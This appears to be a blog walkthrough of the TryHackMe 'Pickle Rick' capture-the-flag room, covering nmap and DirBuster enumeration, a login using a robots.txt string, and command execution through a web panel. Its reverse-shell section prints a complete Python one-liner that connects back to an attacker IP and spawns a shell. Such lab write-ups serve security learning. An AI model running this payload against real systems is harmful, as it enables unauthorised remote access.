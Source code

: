 ```yaml
---
title: TryHackMe - RootMe CTF
subtitle: lorem-ipsum
date: '2021-10-27'
thumb_img_alt: Icelandic horses
content_img_alt: Icelandic horses
excerpt: '"A ctf for beginners, can you root me?"'
seo:
  title: Pickle Rick Walkthrough - Easy
  description: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
  extra:
    - name: 'og:type'
      value: article
      keyName: property
    - name: 'og:title'
      value: Pickle Rick CTF Walkthrough - Easy
      keyName: property
    - name: 'og:description'
      value: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
      keyName: property
    - name: 'og:image'
      value: /images/o9pyhyU.jpg
      keyName: property
      relativeUrl: true
    - name: 'twitter:card'
      value: summary_large_image
    - name: 'twitter:title'
      value: Pickle Rick CTF Walkthrough - Easy
    - name: 'twitter:description'
      value: Easy To Follow Walkthrough of TryHackMe's Pickle Rick CTF
    - name: 'twitter:image'
      value: /images/o9pyhyU.jpg
      relativeUrl: true
layout: post
thumb_img_path: /images/icon.png
content_img_path: /images/banner-da9a986d.PNG
---
```

TryHackMe - Pickle Rick CTF: [https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerickTryHackMe)

This box is listed as Easy .  All three ingredients can be discovered easily from your browser and without using any tools, but for this walkthrough I will be using:

`NMAP DIRBUSTER NETCAT`

I will try to provide alternative guidance where applicable.

# ENUMERATION

First, let's start by pinging the machine and making sure we're able to connect.

![](/images/ping.png)

Everything looks good, so let's try to see which ports we have available.  I'll be using NMAP to perform this scan:

    sudo nmap -sN -Pn 10.10.19.153
         -sN -- TCP Null scan
         -Pn -- Treats all hosts as online / skip host discovery

![](/images/nmap.png)

We can see we have port 22 and port 80 open.  Let's curl the IP and see what we get back.

![](/images/a_curl_port\_80.png)

Nothing really stands out at first.  We can see we have a /assets/ directory we may be able to use later.  If we scroll down, however, we see a comment left by Rick, which gives us the Username.  We'll note this username, and be on the lookout for a login page.

Alternatively, we can navigate to \[TARGET_IP]:80, and inspect source there to get the same:

![](/images/a_inspect_source.png)

Before we jump to directory hunting, let's check for a robots.txt to get any more intel:

![](/images/a_curl_robots.png)

Curl returns a seemingly nonsense phrase that will be important later, and I have purposely blurred.  For now, we do not know its significance though.

Let's do some directory busting.  I'll be using DirBuster, and I'll be using a small wordlist that comes pre-installed in Parrot and Kali.  I'll input the target IP, as well as the file path to my list:

![](/images/dirbuster.png)

After letting the scan run for a few moments, we have some interesting results:

![](/images/a_dirbuster_return.png)

We can see both a /login.php and  a /portal.php which are interesting.  Let's navigate to the login page.

# FOOTHOLD

![](/images/login.png)

We know the Username from our notes of the HTML comment on the home page, but we don't know the password.  A quick trial of usual passwords doesn't work.  We can try a sniper attack in BurpSuite, but what about the text in /robots.txt?  Let's try that.

![](/images/command.png)

Awesome, that worked, and now we're in.  Let's check the page source for any hidden comments or bread crumbs:

![](/images/a_portal_source.png)

Nothing seems to stand out aside from the comment which appears to be Base64 encoded.  Let's make note of that and go back to /portal.php.  Let's try out a few commands we know, and see if that gets us anywhere.

![](/images/whoami.png)![](/images/ls.png)

After some trial and error, we can see that we're seemingly giving commands to a Linux machine.  We can see a 'clue.txt' and 'Sup3rS3cretPickl3Ingred.txt' in our current directory, so let's try to cat the ingredient.

![](/images/cat.png)

Ok.  That didn't work, but we have more options.  Let's wget the files and have them locally if we need them later.![](/images/wget.png)

From here, we can cat the files and see what they contain:

![](/images/a_first_ingred.png)

Awesome, we have the first ingredient as well as a hint for how to find the rest.

Alternatively, we would have been able to 'less' the .txt files and gotten their contents in the browser:

![](/images/a_less_first.png)![](/images/less_clue.png)

# REVERSE SHELL

At this point, we can continue to issue commands to the web browser panel.  However, for practice and ease of use, I chose to implement a reverse shell.  I started netcat on my machine, and listened on port 4444 (an arbitrary port).  I then issued the command

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("\[YOUR IP]",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"]);'`

on the control panel, and was able to spawn the reverse shell:

![](/images/a_shell_open.png)

Now we can explore the machine and look for our next ingredient:

![](/images/a_shell_second.png)

# PRIVILEGE ESCALATION

Awesome.  That's the second ingredient, and we only have one left.  Unfortunately, the last one needs root access, so let's practice our privilege escalation.  I'll use another python script to sudo bash:

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now we can cd to /root, and get into the third ingredient:

![](/images/a_shell_last.png)

That's it! We got all three ingredients.  Enter them for your points, and I'll see you in the next room.
